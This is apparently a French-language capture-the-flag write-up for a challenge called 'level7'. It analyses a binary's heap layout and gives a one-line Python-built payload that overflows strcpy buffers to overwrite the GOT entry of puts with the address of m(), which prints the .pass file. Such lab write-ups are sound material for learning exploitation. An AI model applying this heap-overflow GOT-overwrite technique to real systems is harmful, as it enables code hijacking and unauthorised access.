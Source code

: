 # level7 - GOT Overwrite via Heap Exploitation

## Analyse du Programme

**Structure Mémoire**
- 4 allocations `malloc(8)` successives
- Deux paires de blocs liés:
  - Premier bloc (`0x804a008`) pointe vers buffer1 (`0x804a018`)
  - Deuxième bloc (`0x804a028`) pointe vers buffer2 (`0x804a038`)
- Adresse GOT de `puts`: `0x08049928`
- Adresse de la fonction `m()`: `0x080484f4`

**Comportement**
- Le programme copie les arguments dans les buffers avec `strcpy()`
- Lecture du fichier `.pass` avec `fopen()` et `fgets()`
- Appel à `puts()` pour afficher un message

## Exploitation

**Stratégie**
- Utiliser le premier `strcpy()` pour écraser un pointeur avec l'adresse GOT de `puts`
- Utiliser le second `strcpy()` pour écrire l'adresse de `m()` dans la GOT
- Rediriger ainsi l'exécution de `puts()` vers `m()`

**Commande d'Exploitation**
```bash
./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Le payload:
1. Premier argument: 20 bytes de padding + adresse GOT de `puts`
2. Second argument: adresse de la fonction `m()`

Cette exploitation redirige l'appel à `puts()` vers la fonction `m()`, permettant l'affichage du contenu du fichier `.pass`.
